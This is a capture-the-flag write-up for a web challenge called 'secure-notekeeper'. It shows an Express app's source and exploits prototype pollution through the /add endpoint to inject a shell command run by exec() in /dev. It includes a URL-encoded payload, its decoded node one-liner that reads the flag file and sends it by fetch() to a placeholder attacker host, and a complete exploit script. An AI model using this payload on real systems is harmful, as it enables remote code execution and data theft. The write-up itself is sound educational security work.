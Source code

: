 # secure-notekeeper Challenge Writeup

> **Category**: Web\
> **Author**: Stefan

## TL;DR
Exploiting prototype pollution to execute arbitrary commands.

---

## Challenge Description
The challenge involves a web application that allows us to add objects to a database. Our goal is to exploit the application to retrieve the flag.

## Solution

### Step 1: Analyzing the Application
First, we analyze the application by inspecting the source code. The application uses Express and has endpoints for adding and retrieving "notes".

```js
const express = require('express');
const bodyParser = require("body-parser");
const router = express.Router()
const { exec } = require("child_process");
const app = express();

app.use(bodyParser.urlencoded({extended: false}));
app.use(bodyParser.json());

app.use("/",router);

let db = {};

router.get('/',(req,res) => {
	res.send("Welcome to secure_notekeeper!");
});

router.get('/get_items',(req,res) =>{
    const {user,password} = req.query;
	if (!user) return res.send("Invalid use of the endpoint. No user provided!");
	var result = db[user];
	if (result) result = result[password];
	res.send(result);
});

router.get('/add', (req, res) => {
	const {user,password,entry} = req.query;
	if (!user) return res.send("Invalid use of the endpoint. No user provided!");
	if (!db[user]) db[user]={};
	db[user][password] = entry;
	res.send("Entry added succesfully!");
});
```

### Step 2: Identifying the Vulnerability
Upon inspecting the code, we notice that the application is vulnerable to prototype pollution. The `db` object is used to store user data, and there are no checks to prevent prototype pollution.

### Step 3: Exploiting Prototype Pollution
We can exploit prototype pollution by adding properties to the `db` object that will allow us to execute arbitrary commands. The `dev` endpoint in the code uses the `exec` function to execute commands, which we can leverage to read the flag.

```js
router.get('/dev',(req,res) => {
	let result = Buffer.from(JSON.stringify(db));
	const cmd = utils.uploader + `dev ${result.toString('base64')}`;
	console.log(cmd);
	exec(cmd,(err,_,__) => {
		if (err) return res.json({is_success:false});
		res.json({is_success:true});
	});
});
```

### Step 4: Crafting the Payload
We craft a payload to pollute the prototype and add a command to read the flag file. We use the `add` endpoint to inject our payload.

```http://34.107.71.117:31412/add?user=__proto__&password=uploader&entry=node%20%2De%20%22const%20%7B%20exec%20%7D%20%3D%20require%28%27child%5Fprocess%27%29%3B%20exec%28%27cat%20%2Fhome%2Fnotekeeper%2Fflag%2Etxt%27%2C%20%28err%2C%20stdout%2C%20stderr%29%20%3D%3E%20%7B%20if%20%28err%29%20%7B%20console%2Eerror%28err%29%3B%20return%3B%20%7D%20fetch%28%27http%3A%2F%2Fyour%5Fip%3Ayour%5Fport%2F%3Foutput%3D%27%20%2B%20encodeURIComponent%28stdout%29%29%2Ecatch%28console%2Eerror%29%3B%20%7D%29%3B%22%20%23%20```

> **Note**: Prototype pollution is a vulnerability where an attacker can modify the prototype of a base object, affecting all instances of that object. In the provided code, the `/add` endpoint allows users to add entries to the `db` object without proper validation, making it vulnerable. By setting the `user` parameter to `__proto__`, we can modify the prototype of all objects, basically modify what an object is itself. This allows us to add properties that will be inherited by other objects, such as `utils`. We can then exploit this by injecting a command into the `uploader` property of the prototype. When the `/dev` endpoint is triggered, it uses the `uploader` property to execute commands, allowing us to read the flag file and retrieve its content.

### Step 5: Executing the Payload
After injecting the payload, we trigger the `dev` endpoint to execute our command and retrieve the flag.

```http://34.107.71.117:31412/dev```

### Step 6: Retrieving the Flag
The command reads the flag file and sends the content to our server. We capture the flag from the response.

The JS payload URL decoded is:

```node -e "const { exec } = require('child_process'); exec('cat /home/notekeeper/flag.txt', (err, stdout, stderr) => { if (err) { console.error(err); return; } fetch('http://your_ip:your_port/?output=' + encodeURIComponent(stdout)).catch(console.error); });" #```

> **Note**: I added a `#` at the end of the payload to mark the rest of the command as a comment. ```const cmd = utils.uploader + `dev ${result.toString('base64')}`;```

## Script
```js
const payload = `
node%20%2De%20%22const%20%7B%20exec%20%7D%20%3D%20require%28%27child%5Fprocess%27%29%3B%20exec%28%27cat%20%2Fhome%2Fnotekeeper%2Fflag%2Etxt%27%2C%20%28err%2C%20stdout%2C%20stderr%29%20%3D%3E%20%7B%20if%20%28err%29%20%7B%20console%2Eerror%28err%29%3B%20return%3B%20%7D%20fetch%28%27http%3A%2F%2Fyour%5Fip%3Ayour%5Fport%2F%3Foutput%3D%27%20%2B%20encodeURIComponent%28stdout%29%29%2Ecatch%28console%2Eerror%29%3B%20%7D%29%3B%22%20%23%20`

fetch(`http://34.107.71.117:31412/add?user=__proto__&password=uploader&entry=${payload}`)
    .then(response => response.text())
    .then(data => {
        fetch('http://34.107.71.117:31412/dev')
            .then(response => response.text())
            .then(data => {
                console.log(data);
            })
            .catch(error => {
                console.error(error);
            });
    })
    .catch(error => {
        console.error(error);
    });
```
## Flag
`ctf{d3147872085df5640daf51b2781a45d34645226fdf37367fa04fecb6242ea83b}`